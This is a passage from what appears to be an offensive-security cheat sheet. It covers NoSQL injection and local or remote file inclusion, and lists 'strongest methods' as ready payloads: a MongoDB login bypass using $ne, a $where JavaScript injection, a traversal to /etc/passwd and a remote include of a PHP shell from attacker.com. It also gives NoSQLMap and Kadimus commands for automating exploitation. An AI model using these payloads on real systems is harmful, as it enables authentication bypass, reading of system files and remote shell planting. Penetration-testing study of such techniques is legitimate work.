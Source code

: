 
### **7. NoSQL Injection**
NoSQL databases (e.g., MongoDB) are also vulnerable to injection attacks.

#### **Strongest Methods**
- **Authentication Bypass**:  
  ```json
  {"username": "admin", "password": {"$ne": ""}}
  ```  
  - Bypasses authentication by exploiting MongoDB queries.  

- **Data Extraction**:  
  ```json
  {"$where": "this.username == 'admin' && this.password == '' || 1==1"}
  ```  
  - Extracts data by injecting malicious JavaScript.  

#### **Kali Tools**
- **NoSQLMap**:  
  ```bash
  python nosqlmap.py -u "http://example.com/api"
  ```  
  - Automates NoSQL injection exploitation.  

- **Burp Suite**:  
  - Use Burp to manually test for NoSQL injection vulnerabilities.  

---

### **8. File Inclusion (LFI/RFI)**
Local File Inclusion (LFI) and Remote File Inclusion (RFI) allow attackers to include files on the server.

#### **Strongest Methods**
- **LFI**:  
  ```bash
  ../../../../etc/passwd
  ```  
  - Reads the `/etc/passwd` file.  

- **RFI**:  
  ```bash
  http://attacker.com/shell.txt
  ```  
  - Includes a remote file (e.g., a PHP shell).  

#### **Kali Tools**
- **Kadimus**:  
  ```bash
  kadimus -u "http://example.com/page?file=../../etc/passwd"
  ```  
  - Automates LFI/RFI exploitation.  

- **Burp Suite**:  
  - Use Burp to manually test for file inclusion vulnerabilities.  

---